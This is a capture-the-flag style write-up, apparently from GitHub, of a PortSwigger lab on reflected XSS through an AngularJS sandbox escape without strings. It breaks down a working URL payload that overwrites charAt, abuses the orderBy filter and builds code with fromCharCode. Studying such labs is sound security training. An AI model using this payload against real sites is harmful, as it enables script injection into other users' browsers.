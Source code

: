 # XSS - Reflected XSS with AngularJS

## 📌 Lab Details
- **Title**: Reflected XSS with AngularJS sandbox escape without strings
- **Difficulty**: Expert
- **Category**: Cross-site Scripting
- **Lab URL**: https://portswigger.net/academy/labs/launch/d82e3a0ca07b096a36c320bdaf6f10ac92869a49f98d1adfd16b4ffdc05390f1?referrer=%2fweb-security%2fcross-site-scripting%2fcontexts%2fclient-side-template-injection%2flab-angular-sandbox-escape-without-strings

## 🔍 Summary
This lab contains a **reflected XSS** vulnerability where `eval` function cannot be used to insert string into **Angular JS**.

## 🛠 Payload
1. `toString().constructor`
   - `toString()` gives you a string.
   - `.constructor` gives you the **String constructor**.
     
2. ` .prototype.charAt=[].join`
   - Normally, Angular uses `charAt` during string access checks in sandboxing.
   - Overwriting `charAt` breaks the sandbox because Angular uses it internally for security parsing.
   - `[].join` is a safe method that doesn't throw errors, so it's often used to stub functions.
  
3. `[1] | orderBy: ...`
   - This uses AngularJS' filter system. `orderBy` can evaluate arbitary code in sandboxed Angular if we break it correctly.
   - `[1]` is just a dummy array to trigger the filter.
  
4. `toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)`
   - This builds the string: "x=alert(1)".
  
5. Final Payload:
   ```sh
   ?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
   ```

## 📖 Key Takeaways
- AngularJS can be exploited even when strings and `$eval` are blocked.
- Bypasses use prototype pollution (`charAt`) and string building (`fromCharCode`).
  

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/dcdb95ae-3762-43ed-bde2-61c5552159a9)
![image](https://github.com/user-attachments/assets/e9e73c1d-84c8-47c1-9859-4621714a6b53)
![image](https://github.com/user-attachments/assets/3bc2f854-42b5-4596-b2a6-ecbf3cbfed68)
